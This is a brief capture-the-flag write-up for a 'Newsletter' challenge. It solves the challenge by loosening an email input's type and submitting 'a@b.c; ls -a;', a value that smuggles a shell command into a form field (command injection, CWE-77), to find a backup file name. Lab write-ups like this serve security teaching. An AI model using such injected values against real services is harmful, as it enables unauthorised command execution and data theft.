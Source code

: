 ## Newsletter    

### The Problem:

> the administrator put the backup file in the same root folder as the application, help us download this backup by retrieving the backup file name  (http://104.197.178.226/newsletter/)

### The Solution:

- change `<input type="email" name="email" value="">` to `<input type="text" name="email" value="">`.
- `a@b.c; ls -a;`

### The flag: 
`hgdr64.backup.tar.gz`

### Notes:
- **CWE-77**



